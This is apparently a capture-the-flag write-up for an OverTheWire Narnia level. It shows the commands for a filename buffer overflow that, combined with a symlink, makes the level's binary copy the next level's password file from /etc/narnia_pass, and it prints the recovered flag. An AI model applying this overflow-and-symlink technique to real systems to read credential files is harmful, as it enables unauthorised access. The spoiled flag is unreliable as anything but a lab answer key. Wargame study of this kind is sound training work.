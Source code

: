 ```yaml
---
layout: default
title: narnia4
---
```


# narnia level4 Solution

we will override the output file, this is the line we'll run
`python3 -c "print('/tmp/1/'+'a'*(32-len('/tmp/1/')) + 'output_file')"`
notice my dir is `/tmp/1`.
then, we will run link the file that it outputs to the password file: `ln -sf /etc/narnia_pass/narnia4 /tmp/1/aaaaaaaaaaaaaaaaaaaaaaaaaoutput_file`

then, we will create the output file: `touch output_file`
and we need only to execute the binary: `/narnia/narnia3 /tmp/1/aaaaaaaaaaaaaaaaaaaaaaaaaoutput_file`

in one picture:
![alt text](./images/level4.png)



**Flag:** ***`iqNWNk173q`*** 

